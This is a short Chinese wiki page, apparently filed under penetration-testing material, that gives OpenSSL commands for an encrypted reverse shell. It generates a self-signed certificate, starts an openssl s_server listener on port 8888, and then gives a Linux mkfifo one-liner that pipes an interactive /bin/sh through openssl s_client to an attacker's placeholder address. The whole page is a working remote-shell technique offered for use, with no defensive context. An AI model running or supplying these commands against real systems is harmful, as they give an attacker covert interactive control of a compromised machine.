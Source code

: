 <languages  />

生成自签名证书
--------------

    openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

服务端监听8888端口
------------------

    openssl s_server -quiet -key key.pem -cert cert.pem -port 8888

Linux下使用mkfifo进行反弹shell
------------------------------

    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect Your ip:Your port> /tmp/s; rm /tmp/s

[Category:滲透測試資料](Category:滲透測試資料 "wikilink")